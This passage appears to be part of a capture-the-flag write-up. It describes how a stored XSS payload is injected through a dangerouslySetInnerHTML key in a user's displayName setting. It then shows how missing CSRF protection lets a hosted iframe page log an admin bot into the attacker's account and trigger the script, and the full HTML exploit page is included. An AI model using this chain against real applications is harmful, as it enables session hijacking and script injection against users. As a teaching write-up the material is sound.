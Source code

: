 ```ts
        userId,
        JSON.stringify(finalSettings.displayName || EMPTY_USER_SETTINGS.displayName)
      ]);
      return true;
    } catch (error) {
      console.error('Error updating user settings:', error);
      return false;
    }
  }
...
```

So, we can craft a UserSettings with the key `dangerouslySetInnerHTML` with a value of `{"__html": "payloadxss"}` into the `displayName` field with a POST to `/api/settings`, while we're logged in. This will store the xss payload to the logged user and execute the script when the dashboard of that user is loaded.

We now need to have the bot visit our page with the XSS payload. The bot though is already logged in, and we need the bot to have a session with the user that has the XSS payload we injected. Note that we can make the bot visit any website, given its protocol is `http` or `https`.

Since there is no **CSRF** protection in the app, if the bot visit our malicious page, we can make it send requests to handle his user session, like logging in with another user.

We can use an `<iframe>` to make sure the bot does not have any session active and make it login with the user we want. The bot then will trigger the XSS inside the iframe.

Indeed, we can host a simple HTML page that automatically logins as our wanted user, and then visits the dashboard page with the XSS payload.
```html
<!-- xss.html -->
<iframe id="x-frame" src="{{ app_url }}/"></iframe>
<script>
  const sleep = (ms) => new Promise((resolve) => setTimeout(resolve, ms));
  x = async () => {
    // await sleep(1000);
    xframe = document.getElementById("x-frame");
    xframe.contentWindow.fetch("{{ app_url }}/api/login", {
      method: "POST",
      mode: "no-cors",
      credentials: "include",
      headers: {
        "Content-Type": "application/json",
      },
      body: JSON.stringify({
        username: "{{ username }}",
        password: "{{ password }}",
      }),
    });
    await sleep(1000);
    xframe.src = "{{ app_url }}/dashboard";
    // xss should trigger now
  };
  x();
</script>
```
